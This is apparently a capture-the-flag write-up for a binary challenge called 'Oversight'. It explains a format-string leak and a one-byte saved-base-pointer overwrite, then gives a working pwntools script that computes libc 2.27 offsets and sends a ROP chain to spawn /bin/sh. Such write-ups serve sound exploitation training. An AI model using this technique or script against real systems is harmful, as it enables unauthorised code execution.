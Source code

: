 # Oversight Solution

This is a ropchain challenge with a base pointer overwrite.

## Running the program

When we run the program we are asked to pick a number, to which the program replies with a magic number. If we feed it a `0` then our magic number is `%0$llx` - this is a hint at a format string vulnerability.

Later the program asks for the number of bytes you want to write, then asks you to write that many bytes, before echoing them back at you.

## The first vulnerability

The format string vulnerability is worth looking into. Upon inspecting how it works, it is revealed to be parsing your input to an integer before interpolating it back into the format string. The prevents using `%n` etc. in the format string, but allows a random `%n$llx` to be used.

Once this format string is assembled it is simply being passed into printf without any further arguments. This allows a leak of arbitrary data out of one of the arugument registers or off the stack.

## The second vulnerability

When looking at the binary, one thing to note is that the function calls are oddly nested - instead of sequentially calling one function then the other, functions are nested to complete each other. This hints that the solution may be something to do with the function call stack.

The second thing to note is that there is a custom string operation written into the `echo_inner` function, which calls `fread` for the number of bytes you want, then appends a null byte after. This can be abused to fill the buffer with 256 bytes of  arbitrary data and then write a null byte into the next byte after the buffer.
It just so happens that the byte after the buffer here happens to be the saved base pointer for the `echo` function's frame. Now we are able to overwrite the saved base pointer, which will become `rbp` once the function is returned from, and then will control the stack pointer when the calling function is returned from.

```
┏━━━━━━━━━━━━━━━┓
┃ AAAAAAAAAAAAA ┃ <- buffer
┃ AAAAAAAAAAAAA ┃
┃ AAAAAAAAAAAAA ┃
┃ AAAAAAAAAAAAA ┃
┣━━━━━━━━━━━━━━━┫
┃ 00            ┃ <- saved RBP
┣━━━━━━━━━━━━━━━┫
┃               ┃ <- ret addr
┗━━━━━━━━━━━━━━━┛
```

We can utilize this to move the stack pointer for `get_num_bytes` just before it returns (during the `leave` instruction) back up the stack into the 256 byte buffer we filled before, then the following `ret` instruction begins a rop chain.

## The exploit

Our goal for this exploit is to use a ropchain to call `system("/bin/sh")` but to do that we must first know the location of libc.

To leak the libc location, we look at the stack where the `printf` call is made:

```
00:0000│ rsp     0x7fffffffe2d0 —▸ 0x7ffff7f87520 (_IO_2_1_stdout_) ◂— 0xfbad2887
01:0008│         0x7fffffffe2d8 ◂— 0xa36000001
02:0010│ rdi r12 0x7fffffffe2e0 ◂— 'Your magic number is: %6$llx\n'
03:0018│         0x7fffffffe2e8 ◂— 'ic number is: %6$llx\n'
04:0020│         0x7fffffffe2f0 ◂— 'r is: %6$llx\n'
05:0028│         0x7fffffffe2f8 ◂— 0xa786c6c24 /* '$llx\n' */
06:0030│         0x7fffffffe300 ◂— 0x0
07:0038│         0x7fffffffe308 —▸ 0x7ffff7e47a69 (__GI__IO_do_write+25) ◂— cmp    rbx, rax
08:0040│         0x7fffffffe310 ◂— 0xa /* '\n' */
09:0048│         0x7fffffffe318 —▸ 0x7ffff7e47ed3 (__GI__IO_file_overflow+259) ◂— cmp    eax, -1
0a:0050│         0x7fffffffe320 ◂— 0x10
0b:0058│         0x7fffffffe328 —▸ 0x7ffff7f87520 (_IO_2_1_stdout_) ◂— 0xfbad2887
0c:0060│         0x7fffffffe330 —▸ 0x555555556075 ◂— 'Lets play a game'
0d:0068│         0x7fffffffe338 —▸ 0x7ffff7e3cc2a (puts+378) ◂— cmp    eax, -1
0e:0070│         0x7fffffffe340 —▸ 0x555555555430 (__libc_csu_init) ◂— endbr64
0f:0078│         0x7fffffffe348 —▸ 0x7fffffffe370 ◂— 0x0
10:0080│         0x7fffffffe350 —▸ 0x5555555550e0 (_start) ◂— endbr64
11:0088│         0x7fffffffe358 —▸ 0x5555555550e0 (_start) ◂— endbr64
12:0090│ rbp     0x7fffffffe360 —▸ 0x7fffffffe370 ◂— 0x0
13:0098│         0x7fffffffe368 —▸ 0x5555555550d5 (main+37) ◂— xor    eax, eax
```

We can see at stack position 0x00 0x0b there is the `_IO_2_1_stdout_` symbol which exists within libc. For this example I have chosen to use offset 0x0b.

Since this is x86_64 we have 6 arguments in registers before the stack starts being used for `printf` arguments, therefore if we want to index into position 0x0b on the stack, we must add 6 to it and give 17.


```python
from pwn import *

p = process("./src/pwn")

p.sendline(b"")
p.readuntil(b"Pick a number: ")
p.sendline(b"17")
```

Now that we know the address of the `_IO_2_1_stdout_` symbol, we use that to calculate the base of libc, and find some gadgets to help with the ropchain.

```python
p.readuntil(b"Your magic number is: ")
leaked = int(p.readline().strip(), 16)

# 2.27
libc_base = leaked - 0x3ec760
libc_ret = libc_base + 0x000008aa
libc_pop_rsi = libc_base + 0x00023eea
libc_binsh = libc_base + 0x1b3e1a
libc_pop_rdi = libc_base + 0x000215bf
libc_execve = libc_base + 0xe4c00

print("_IO_2_1_stdout_ = {:x}".format(leaked))
print("libc_base = {:x}".format(libc_base))
```

Now we can send our ropchain - preceeded by a few `ret` gadgets to use as a sled for our shell.

```python
print("_IO_2_1_stdout_ = {:x}".format(leaked))
print("libc_base = {:x}".format(libc_base))

p.readuntil(b"How many bytes do you want to read (max 256)? ")
p.sendline(b"256")

ropchain = (
    p64(libc_pop_rsi) +
    p64(0) +  # rsi
    p64(libc_pop_rdi) +
    p64(libc_binsh) +  # /bin/sh
    p64(libc_execve)
)

payload = p64(libc_ret) * ((256 - len(ropchain)) // 8) + ropchain

p.send(payload)

p.interactive()
```

(this exploit may fail some of the time)
